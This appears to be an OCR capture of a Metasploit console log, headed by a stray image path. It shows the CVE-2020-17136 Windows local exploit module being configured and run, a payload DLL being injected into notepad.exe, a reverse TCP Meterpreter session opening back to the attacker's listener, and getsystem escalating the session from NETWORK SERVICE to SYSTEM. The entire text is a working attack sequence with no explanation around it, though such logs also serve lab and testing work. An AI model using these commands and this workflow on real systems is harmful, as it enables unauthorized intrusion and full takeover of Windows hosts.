 ```
msf6 exploit(windows/local/cve_2020_17136) > set LHOST 172.22.159.28
LHOST => 172.22.159.28
msf6 exploit(windows/local/cve_2020_17136) > run

[*] Started reverse TCP handler on 172.22.159.28:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. A vulnerable Windows 10 20H1 build was detected!
[*] Dropping payload dll at C:\Windows\Temp\BXNkequQiAvYxuVp.dll and registering it for cleanup...
[*] Running module against DESKTOP-KUO5CML
[*] Launching notepad.exe to host CLR...
[+] Process 100 launched.
[*] Reflectively injecting the Host DLL into 100..
[*] Injecting Host into 100...
[*] Host injected. Copy assembly into 100...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] Sync connection key: 2733760425760
[+] Done
[*] End output.
[+] Execution finished.
[*] Sending stage (200262 bytes) to 172.22.152.177
[*] Meterpreter session 2 opened (172.22.159.28:4444 -> 172.22.152.177:49968) at 2021-01-08 11:18:19 -0600

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```